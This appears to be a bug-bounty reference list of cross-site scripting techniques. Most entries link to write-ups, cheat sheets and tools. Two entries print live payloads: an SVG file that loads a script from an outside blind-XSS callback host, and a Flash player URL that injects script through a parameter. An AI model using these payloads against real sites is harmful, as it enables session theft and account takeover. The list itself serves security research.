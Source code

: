 ## 1. Browser's XSS Filter Bypass Cheat Sheet

https://github.com/masatokinugawa/filterbypass/wiki/Browser's-XSS-Filter-Bypass-Cheat-Sheet

## 2. Stored XSS using file upload
https://medium.com/@vis_hacker/how-i-got-stored-xss-using-file-upload-5c33e19df51e

## 3. XSS Through Parameter Pollution
https://infosecwriteups.com/xss-through-parameter-pollution-9a55da150ab2

## 4. XSS via HTTP Headers
https://brutelogic.com.br/blog/xss-via-http-headers/

## 5. Blind XSS in svg file
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC
  "-//W3C//DTD SVG 1.1//EN"
  "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
  <svg width="200"
       height="200"
       zoomAndPan="disable"
       xmlns="http://www.w3.org/2000/svg"
       xmlns:xlink="http://www.w3.org/1999/xlink"
       xml:space="preserve">
    <!-- Script linked from the outside-->
    <script xlink:href="https://smaul1.xss.ht" />
    <script>
      //<![CDATA[
        alert("Smaul");
      ]]>
    </script>
  </svg>
  ```

## 6. PostMessage XSS
```
https://medium.com/@youghourtaghannei/postmessage-xss-vulnerability-on-private-program-18e773e1a1ba
```
## 7. Flash Based Reflected XSS
```
http://www.domain.com/jwplayer/player.swf?playerready=alert(document.domain)
```
https://hackerone.com/reports/859806

## 8. XSS in .Net
https://blog.isec.pl/all-is-xss-that-comes-to-the-net/

## 9. DOMXSS WIKI
https://github.com/wisec/domxsswiki/wiki

## 10. Reflected XSS Through Insecure Dynamic Loading
https://infosecwriteups.com/reflected-xss-through-insecure-dynamic-loading-dbf4d33611e0

## 11. Uber Bug Bounty: Turning Self-XSS into Good-XSS
https://whitton.io/articles/uber-turning-self-xss-into-good-xss/

## 12. Multi Domain DOM Cross Site Scripting
https://coffeejunkie.me//Multi-Domain-DOM-Cross-Site-Scripting/

## 13. Hunting for XSS with CodeQL
https://medium.com/codex/hunting-for-xss-with-codeql-57f70763b938

## 14. PNG IDAT chunks XSS payload generator
https://github.com/vavkamil/xss2png

## 15. XSS to Account takeover in payu.in
https://blog.amanrawat.in/2021/02/01/xss-to-account-takeover-payu.html

## 16. Magic Header Blind Xss tool (deliver blind xss payloads in request headers).
https://github.com/adrianscheff/pegaxss





